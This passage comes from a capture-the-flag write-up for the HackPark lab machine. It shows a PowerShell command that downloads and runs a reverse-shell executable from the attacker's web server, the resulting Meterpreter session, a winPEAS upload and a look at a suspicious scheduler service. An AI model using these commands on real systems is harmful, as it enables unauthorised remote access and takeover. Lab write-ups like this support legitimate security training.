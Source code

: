 Set up a webserver 

```shell
python3 -m http.server
```

Finally downloading our reverse.exe to the target;

```shell
cd C:\Windows\Temp
powershell -c wget "http://10.14.49.18:8000/reverse.exe" -outfile "reverse.exe"
reverse.exe
```

Now we have a meterpreter shell to the machine allowing us to run more tooling;

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.14.49.18:4446 
[*] Sending stage (175686 bytes) to 10.10.194.58
[*] Meterpreter session 1 opened (10.14.49.18:4446 -> 10.10.194.58:49265) at 2023-05-10 18:55:57 +0100

meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

To enumerate further we will upload winpeas to the machine and run it;

```shell
meterpreter > upload winPEASany.exe
[*] Uploading  : /home/kali/ctfs/tryhackme/HackPark/winPEASany.exe -> winPEASany.exe
[*] Uploaded 1.93 MiB of 1.93 MiB (100.0%): /home/kali/ctfs/tryhackme/HackPark/winPEASany.exe -> winPEASany.exe
[*] Completed  : /home/kali/ctfs/tryhackme/HackPark/winPEASany.exe -> winPEASany.exe
meterpreter > shell
Process 1980 created.
Channel 3 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\Temp>winpeasany.exe servicesinfo
```

We can see there is an abnormal service running 

```shell
WindowsScheduler
```

This service runs periodically Message.exe located in 'C:\Program Files (x86)\SystemSchedule'

---